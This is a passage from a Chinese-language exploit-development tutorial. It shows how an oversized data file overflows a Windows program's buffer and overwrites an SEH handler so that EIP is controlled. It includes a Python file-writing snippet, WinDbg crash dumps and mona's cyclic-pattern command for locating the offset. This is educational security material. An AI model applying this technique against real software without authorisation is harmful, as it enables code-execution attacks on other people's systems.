 ```
with open('c:\\name.dat', 'wb') as f:
    f.write('a'*2000)

```

同样没有达到我们的目的。最后，使用10000个”a”字符，我们得到：

```
(17d4.1244): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\SysWOW64\MSVCR120.dll -
eax=00816808 ebx=000000c8 ecx=00000030 edx=000000c8 esi=008167d8 edi=003c0000
eip=6d51f20c esp=003bfb68 ebp=003bfb88 iopl=0         nv up ei ng nz na pe cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010287
MSVCR120!wcslen+0x19:
6d51f20c f3a4            rep movs byte ptr es:[edi],byte ptr [esi]

```

在按下F5（go）之后，我们得到：

```
(17d4.1244): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=61616161 edx=77c2b4ad esi=00000000 edi=00000000
eip=61616161 esp=003bf5cc ebp=003bf5ec iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
61616161 ??              ???

```

这是我们想要的：`EIP=0x61616161`。我们知道我们的”a”字符已经覆写了SEH节点的handler地址，但确定是这4个”a”字符吗？换句话说，我们应该把重定向执行流的地址放入到文件中的偏移是多少呢？ 使用特定的模板而不是使用单一的”a”字符不失为一种简单的方法。这个模板已设计好了，因此给出了模板的4个连续字节，我们可以立即告诉该模板的偏移这四个字节被定位了。 利用mona(相关文章链接：[http://drops.wooyun.org/tips/6814](http://drops.wooyun.org/tips/6814))使用如下命令可以帮助我们：

```
0:000> !py mona pattern_create 10000
Hold on...
[+] Command used:
!py mona.py pattern_create 10000
Creating cyclic pattern of 10000 bytes
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8...(snipped)
[+] Preparing output file 'pattern.txt'
    - (Re)setting logfile pattern.txt
Note: don't copy this pattern from the log window, it might be truncated !
It's better to open pattern.txt and copy the pattern from the file    

[+] This mona.py action took 0:00:00

```

使用一段Python代码，我们可以将模板写到`c:/name.dat`。
